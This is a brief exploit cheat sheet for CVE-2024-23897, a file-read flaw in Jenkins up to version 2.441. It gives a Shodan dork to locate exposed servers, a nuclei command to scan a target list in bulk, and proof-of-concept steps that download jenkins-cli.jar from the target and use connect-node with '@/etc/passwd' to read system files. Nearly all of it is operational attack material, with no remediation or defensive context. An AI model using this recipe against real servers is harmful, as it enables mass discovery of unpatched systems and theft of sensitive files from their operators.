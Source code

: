 ### File-Read Access on a Jenkins server <= version 2.441

#### Tag
```Jenkins```

#### Dorks
```
Shodan - http.favicon.hash:81586312
```

#### Nuclei Scanning
```
nuclei -l targets.txt -t CVE-2024-23897.yaml -o vulnerable-targets.txt
```

#### Exploit POC
```
https://www.youtube.com/watch?v=2u-4f3d9rWI

1. Download jenkins-cli.jar
http://<target>:8080/jnlpJars/jenkins-cli.jar

2. Read Sensitive File
java -jar jenkins-cli.jar -s http://<target>:8080/ -http connect-node "@/etc/passwd"
```
